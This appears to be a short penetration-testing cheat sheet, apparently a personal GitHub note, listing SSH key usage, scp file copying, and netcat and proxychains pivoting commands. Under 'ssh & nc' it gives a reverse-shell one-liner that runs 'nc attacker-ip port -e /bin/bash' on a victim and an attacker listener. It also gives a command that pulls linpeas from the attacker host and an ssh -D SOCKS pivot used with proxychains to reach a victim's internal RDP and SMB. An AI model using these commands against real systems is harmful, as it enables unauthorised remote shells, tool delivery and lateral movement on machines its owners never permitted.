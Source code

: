 ```
C:\\Users\\username\\.ssh\\id_rsa
```

```
chmod 600 ssh_key
```

```
ssh -i ssh_key user@ip
```

### Copy a Local File to a Remote System

```
scp localfile  remoteusername@remotehost:/remote/directory
```

### Copy a Remote File to a Local System

```
scp remoteusername@remotehost:/remotefile /local/directory
```

## ssh & nc

```
ssh username@victim-ip "nc attacker-ip port -e /bin/bash"
```

```
nc -nlvp port
```

```
ssh username@victim-ip "nc attacker-ip port > linpeas.sh"
```

```
ssh username@ip -p2222
```

```
ssh -D 9050 victimUsername@victimIP

netstat -antup 9050

sudo nano /etc/proxychains4.conf

sudo proxychains nc -nv $victim'sInternalIP 80/445

sudo proxychains rdesktop $victimIP
```

![](Pasted%20image%2020231030122335.png)

